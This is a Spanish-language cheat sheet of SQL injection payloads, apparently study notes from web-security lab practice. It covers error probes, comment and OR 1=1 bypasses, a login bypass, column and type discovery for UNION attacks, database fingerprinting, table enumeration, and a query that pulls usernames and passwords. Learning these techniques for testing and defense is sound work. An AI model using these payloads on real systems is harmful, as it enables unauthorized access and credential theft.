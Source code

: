 # ATAQUE: SQL INJECTION

## IDENTIFICAR LA VULNERABILIDAD

' | simbolo comun para testear si existe SQLi o no.

" | simbolo comun para testear si existe SQLi o no.

' -- | simbolo comun para testear si existe SQLi o no

## BYPASS COMUNES

-- | dentro del lenguaje de SQL query, sirve para comentar de manera que todo lo que este despues de los simbolos, se ignora. \
ex: SELECT [columns] FROM products WHERE category = 'Gifts'--' AND released = 1

'#' | dentro del lenguaje de SQL query "#", sirve para comentar de manera que todo lo que este despues del simbolo, se ignora. \
ex: SELECT [columns] FROM products WHERE category = 'Gifts'#' AND released = 1

' OR 1=1-- | sirve para crear una consulta a un resultado booleano, de manera que el inicio de la consulta es leido, el resto no ya que
es siempre TRUE. \
ex: SELECT [columns] FROM products WHERE category = 'Gifts' OR 1=1-- AND released = 1

USER-- | cuando se tiene un usuario se podria probar la vulnerabilidad tratando de ver si hace bypass sin ingresar la contrasena.

## UNION ATTACK

pre-req: numero de columnas y data type de cada columna

### COMO SABER EL NUMERO DE COLUMNAS ?

metodo_1: ' ORDER BY 1-- \
metodo_2: ' UNION SELECT NULL--

### COMO SABER EL DATA TYPE DE UNA COLUMNA ?

> Microsoft, MySQL & PostgreSQL

' UNION SELECT 'a',NULL,NULL,NULL-- \
' UNION SELECT NULL,'a',NULL,NULL-- | se tiene que hacer iterativo cambiando los campos para saber que tipo son.

> Oracle

' UNION SELECT 'a','a' from DUAL--

### IDENTIFICAR INFORMACION DEL MOTOR DE BASE DE DATOS [TIPO/VERSION] 

Microsoft >> SELECT @@version \
MySQL >> SELECT @@version \
Oracle >> SELECT banner FROM v$version | SELECT version FROM v$instance \
PostgreSQL >> SELECT version() \

### LISTAR TABLAS DE LA BASE DE DATOS / [Microsoft/MySQL/PostgreSQL] \

SELECT [columns] FROM information_schema.tables | '+UNION+SELECT+table_name,null+FROM+information_schema.tables-- \
SELECT [columns] FROM information_schema.columns \

SELECT [columns] FROM information_schema.columns WHERE table_name = 'users_qmwbqm' \

### LISTAR TABLAS DE LA BASE DE DATOS / [Oracle] 

SELECT [columns] FROM all_tables \

SELECT [columns] FROM all_tab_columns WHERE table_name = 'USERS' \

### MOSTRAR INFORMACION DE OTRAS TABLAS [importante!]

' UNION SELECT username, password FROM users-- | retrieve the username and password from table "users"
